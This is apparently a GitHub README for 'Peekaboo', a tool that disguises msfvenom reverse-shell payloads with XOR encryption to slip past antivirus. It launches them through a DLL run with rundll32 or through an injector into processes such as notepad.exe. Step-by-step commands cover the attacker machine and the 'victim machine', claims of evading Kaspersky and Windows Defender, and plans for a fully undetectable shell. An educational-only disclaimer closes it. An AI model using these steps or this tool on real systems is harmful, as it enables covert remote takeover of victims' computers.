 # Peekaboo

Simple undetectable shellcode and code injector launcher example. Inspired by RTO malware development course.

## Main logic

XOR encryption and decryption for functions call and main payload - `msfvenom` reverse shell as example.

## Usage
## 1. DLL
### on attacker machine

check your IP:
```bash
ip a
```

![attacker machine IP](./screenshots/1.png?raw=true)

run python script with flags:
```bash
python3 peekaboo.py -l 10.9.1.6 -p 4444
```

![run python script](./screenshots/2.png?raw=true)

### then on victim machine (windows x64):
run on powershell or cmd promt:
```cmd
rundll32 .\peekaboo.dll, BMzUWjfJOsdaiCQzbTLM
```

![run on victim machine](./screenshots/3.png?raw=true)

### check on attacker machine:
check your netcat listener:

![check netcat listener](./screenshots/4.png?raw=true)

example:
![final](./screenshots/5.png?raw=true)

## 2.Injector
### on attacker machine:
check attacker ip:
```bash
ip a
```

![check IP](./screenshots/6.png?raw=true)

run python script on linux (for example process `notepad.exe`):
```bash
python3 peekaboo-inj.py -l 10.9.1.6 -p 4444 -e notepad.exe
```

![encrypting](./screenshots/7.png?raw=true)

compile in VS - windows machine x64:
```cmd
.\compile-inj.bat
```

![compile in attacker windows x64](./screenshots/8.png?raw=true)

### then on victim machine (windows x64):
```cmd
.\peekaboo.exe
```

or click

![run on victim machine](./screenshots/9.png?raw=true)

### check on attacker machine:
check your netcat listener:

![check netcat listener](./screenshots/10.png?raw=true)

## Issues.
Tested on:
1. Attacker machines: Kali linux 2020.1, Windows 10 x64
2. Victim machine: Windows 7 x64, Windows 10 x64
3. Payload: windows x64 reverse shell from msfvenom
4. AV Engines: Kaspersky, Windows Defender, Norton Commander

# Virus Total result:
02 september 2021

![virustotal](./screenshots/11.png?raw=true)

## TODO
- [ ] Compile injector in Kali linux
- [ ] Implement custom variations of `GetProcAddress` and `GetModuleHandle` functions 
- [ ] Replace msfvenom shell to custom undetectable

## Attention
This tool is a Proof of Concept and is for Educational Purposes Only!!! Author takes no responsibility of any damage you cause

## License
[MIT](https://choosealicense.com/licenses/mit/)

